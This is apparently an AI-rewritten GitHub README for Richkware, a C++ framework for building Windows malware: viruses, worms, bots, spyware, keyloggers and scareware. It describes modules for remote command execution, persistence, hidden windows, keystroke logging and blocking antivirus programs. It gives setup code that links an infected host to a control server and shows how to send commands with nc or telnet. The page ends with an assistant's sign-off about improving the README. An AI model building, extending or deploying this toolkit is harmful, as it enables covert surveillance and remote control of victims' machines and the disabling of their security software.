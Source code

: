 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)
[![Codacy Badge](https://api.codacy.com/project/badge/Grade/e6b4a003d5e7404c80225391bfe34f45)](https://app.codacy.com/app/richkmeli/Richkware?utm_source=github.com&utm_medium=referral&utm_content=richkmeli/Richkware&utm_campaign=Badge_Grade_Dashboard)

Richkware is a framework for building Windows malware, written in C++. It provides a library of network and system functions for creating different types of malware, including viruses, worms, bots, spyware, keyloggers, and scareware.

## Description

The Richkware framework includes a set of modules and functions that enable you to create malware with various capabilities. These include network communication, system manipulation, cryptography, and more.

### Types of Malware Supported:
- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

- **[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)**: A server for managing hosts infected with malware developed using the **Richkware** framework.
- **[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)**: A client for communicating with the **Richkware-Manager-Server**, which allows you to send commands to infected hosts.

![Diagram](https://raw.githubusercontent.com/richkmeli/richkmeli.github.io/master/Richkware/Diagram/RichkwareDiagram1.2.png)

## Documentation

|              | EN                          | IT                     |
|--------------|:----------------------------:|:----------------------:|
| Presentation | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Slide.pdf) | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Slide.pdf) |
| Report       | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Report.pdf)  | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Relazione.pdf) |

## Functions

### Network

- **Server** (*network.h*): Manages a multi-thread server to receive commands from the internet (via **Richkware-Manager-Client** or console) according to a specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remote command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: Send a request to a server.
    - **UploadInfoToRichkwareManagerServer**: Upload information to **Richkware-Manager-Server**.

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: Save and load the application state (encrypted), using:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: Ensures the application remains active in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): Check and request administrator privileges.
- **StealthWindow** (*richkware.h*): Hide application windows.
- **OpenApp** (*richkware.h*): Open arbitrary applications.
- **Keylogger** (*richkware.h*): Logs all keystrokes to a file.
- **BlockApps** and **UnBlockApps** (*blockApps.h*): Block and unblock applications (e.g., antivirus programs).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): Uses **RC4** (default) or **Blowfish** encryption algorithms.
- **Encode and Decode** (*crypto.h*): Supports **Base64** (default) and **Hex** encoding.

![Cryptography Diagram](https://raw.githubusercontent.com/richkmeli/richkmeli.github.io/master/Richkware/Diagram/RichkwareCryptographyDiagram1.1.png)

### Other Functions

- **RandMouse** (*richkware.h*): Randomly moves the mouse cursor.
- **Hibernation** (*richkware.h*): Hibernates the system.

## Requirements

To build and use **Richkware**, you will need:

- **Make** or **CMake**
- [MinGW](http://www.mingw.org/)

## Getting Started

### With **Richkware-Manager-Server** (RMS)

If you have deployed **RMS**, initialize the malware as follows:

```cpp
int main() {
    Richkware richkware("Richk", "DefaultPassword", "192.168.99.100", "8080", "associatedUser");
    ...
    return 0;
}
```

This will retrieve a secure key from **RMS** and use it for encryption. **DefaultPassword** is used as a fallback encryption key if the malware cannot reach the RMS.

### Without **Richkware-Manager-Server**

If you have not deployed **RMS**, you can use:

```cpp
Richkware richkware("Richk", "richktest");
```

This will use **richktest** as the encryption key.

## Compile

### Using MinGW (for Windows or cross-compiling for Linux)

```bash
make
```

### Using Microsoft C++ Compiler (Visual Studio)

- Go to **C/C++ > Preprocessor > Preprocessor Definitions**, and add `_CRT_SECURE_NO_WARNINGS`.
- In **Linker > Input > Additional Dependencies**, add `Ws2_32.lib`.

## Example Usage

### Server-side: Starting the Server

In your main program, call the **StartServer** function to start the server. The following example uses TCP port 8000:

```cpp
int main () {
    ...
    richkware.network.server.Start("8000");
    ...
}
```

### Client-side: Connecting to the Server

#### Using **Richkware-Manager-Client**:

If you are using **Richkware-Manager-Client**, you can connect to the server and send commands.

#### Using Terminal on Unix Systems:

On Unix-based systems, use **netcat** (`nc`):

```bash
nc <serverName> 8000
```

If the server is running and accessible, it will respond, and you can send commands like:

```plaintext
[[1]]COMMAND
```

#### Using Terminal on Windows:

On Windows, use **telnet**:

```bash
telnet <serverName> 8000
```

Once connected, send a command like:

```plaintext
[[1]]COMMAND
```

---

This updated README improves the clarity and structure of the original document, making it easier to follow and understand. If you have any further requests or changes you'd like to make, feel free to let me know!